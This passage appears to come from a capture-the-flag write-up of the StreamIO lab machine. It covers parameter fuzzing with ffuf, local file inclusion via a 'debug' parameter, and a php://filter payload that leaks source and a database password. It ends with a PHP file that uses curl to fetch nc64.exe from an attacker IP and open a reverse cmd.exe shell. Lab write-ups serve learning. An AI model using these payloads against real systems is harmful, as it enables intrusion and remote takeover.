 Now let's back to login panel tried all userpass and only yoshihide works

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915171300.png)

now we can access /admin 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915171058.png)

can't do much here but url looks like LFI/RFI

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915171406.png)

Now I got stuck, so watched Ippsec and xct video writeup and figure out that we need to fuzz for parameter, also need to add header cookie

```
ffuf -k -u https://streamio.htb/admin/?FUZZ=id -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -H 'Cookie: PHPSESSID=mi4sdlbnt4vrqc00sol5ffjvlg' -fs 1678
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915172527.png)

and we got debug option

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915172553.png)

checking for lfi we got response

```
https://streamio.htb/admin/?debug=..\..\..\..\windows\win.ini
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915172640.png)

Reading content of index.php we can spot admin db password

```
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915173158.png)

Checking master.php we can see that there is POST parameter include which use file_get_contents of the file and paste it into eval

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250915173405.png)

## Gaining access

so the plan is to generate reverse shell save it and host it via python webserver then master.php will grab it and put content into eval

create es.php
```
system("curl 10.10.14.8/nc64.exe -o c:\\windows\\temp\\nc64.exe");
system("c:\\windows\\temp\\nc64.exe 10.10.14.8 443 -e cmd.exe");
```
python3 -m http.server 80
